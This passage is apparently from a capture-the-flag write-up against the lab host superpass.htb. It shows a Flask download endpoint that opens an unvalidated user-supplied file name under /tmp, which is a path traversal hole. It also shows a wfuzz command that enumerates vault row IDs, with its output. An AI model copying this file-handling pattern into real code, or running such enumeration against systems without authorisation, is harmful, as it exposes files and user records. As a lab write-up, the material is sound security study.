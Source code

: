 ```python
def download():
    r = flask.request
    fn = r.args.get('fn')
    with open(f'/tmp/{fn}', 'rb') as f:
        data = f.read()
    resp = flask.make_response(data)
    resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'
    resp.mimetype = 'text/csv'
    return resp
```

Analyzing the code you can see the presence of various endpoints, among which the possibility of carrying out various operations (add, edit, delete, etc.) starting from an id stands out.

Then, through the use of `wfuzz`, passing a list of numbers, I tried to figure out what the ids were.

```bash
└─$ wfuzz -c --hc=404 --hh=265 -t 200 -w numbers_list http://superpass.htb/vault/row/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://superpass.htb/vault/row/FUZZ
Total requests: 50

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000001:   302        5 L      22 W       263 Ch      "1"                                                                                                                                                                         
000000003:   302        5 L      22 W       263 Ch      "3"                                                                                                                                                                         
000000007:   302        5 L      22 W       263 Ch      "7"                                                                                                                                                                         
000000008:   302        5 L      22 W       263 Ch      "8"                                                                                                                                                                         
000000004:   302        5 L      22 W       263 Ch      "4"                                                                                                                                                                         
000000006:   302        5 L      22 W       263 Ch      "6"                                                                                                                                                                         
000000009:   302        5 L      22 W       263 Ch      "9"                                                                                                                                                                         
000000005:   302        5 L      22 W       263 Ch      "5"                                                                                                                                                                         
000000002:   302        5 L      22 W       263 Ch      "2"                                                                                                                                                                         

Total time: 0
Processed Requests: 50
Filtered Requests: 41
Requests/sec.: 0
```